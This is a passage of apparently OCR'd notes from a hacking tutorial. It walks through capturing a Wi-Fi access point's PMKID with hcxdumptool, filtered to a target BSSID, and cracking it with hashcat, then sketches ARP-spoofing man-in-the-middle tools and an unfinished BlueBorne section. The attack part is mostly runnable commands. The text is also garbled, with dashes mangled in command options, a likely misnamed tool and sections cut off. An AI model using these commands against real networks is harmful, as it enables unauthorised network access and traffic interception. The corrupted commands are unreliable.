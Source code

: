 kali >git clone https://github.com/ZerBea/hcxtools.git
kali >cd hcxtools
kali >make
kali >make install

We now need to place our wireless adapter into monitor mode again.
kali >airmon-ng start wlan0
With the wireless adapter in monitor mode, we can now probe the available APs for their PMKID.
kali >hcxdumptool –I wlan0mon –o HackersArisePMKID –enable_status=1

FILTER ONLY THE TARGET ID THAT WE WANT TO ATTACK
kali > cat > targetBSSID <the target AP’s BSSID>

kali > hcxdumptool –I wlan0mon –o HackersArisePMKID –enable_status=1 –
filterlist_ap=targetBSSID –filtermode=2


Convert Dump to Hashcat Format
To convert the HackersArisePMKID file into a format that hashcat can work with, we need to use
the hcxcaptool. Make certain you are in the same directory as the HackersArisePMKID file and
enter:
kali > hcxcaptool –z hashoutput.txt HackersArisePMKID
Now that we have stripped out all the superfluous information, we can send this hashoutput.txt file
to hashcat and crack it! Note the –m 16800 in this command represents the appropriate hash
algorithm for this hash.
kali > hashcat –m 16800 hashoutput.txt top10000passwords.txt
## 6 Bluetooth Networks ##

### The BlueBourne Attack ###

The exploit attacks the SDP protocol of the BlueTooth
## 7 Address Resolution Protocol(ARP) ##

kali > sudo arp -v (more info,flags,etc)


Tool

kali > sudo netdiscover -h.
kali > netdiscover -r 192.168.100.0/24 (r=range)

arpspoofing. (this is the name of this kind of attacks)

Tools that we use 

Ettercap is an easy-to-use arp spoofing tool for MiTM attacks. To learn more about Ettercap,
click here (https://www.hackers-arise.com/post/2017/08/28/MiTM-Attack-with-Ettercap).
Other tools that utilize ARP for MitM attacks include;

1. arpspoof (https://www.hackers-arise.com/post/2017/07/25/man-the-middle-mitm-attack-
with-arpspoofing)

2. driftnet (https://www.hackers-arise.com/post/2017/09/27/MitM-Using-driftnet-to-View-the-
Targets-Graphics-Files)

**Leveraging ARP in the Metasploit Meterpreter**
